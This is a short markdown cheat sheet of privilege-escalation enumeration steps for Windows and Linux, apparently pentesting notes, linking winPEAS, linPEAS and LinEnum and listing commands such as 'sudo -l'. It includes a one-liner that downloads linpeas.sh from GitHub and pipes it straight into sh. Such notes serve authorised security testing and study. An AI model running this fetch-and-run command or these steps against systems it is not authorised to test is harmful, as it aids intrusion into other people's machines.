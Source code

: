 # Become root / admin
## Windows
- [winPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)
- ` whoami /priv `
## Linux
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
- [LinEnum](https://github.com/rebootuser/LinEnum) (simpler)
- ` sudo -l `
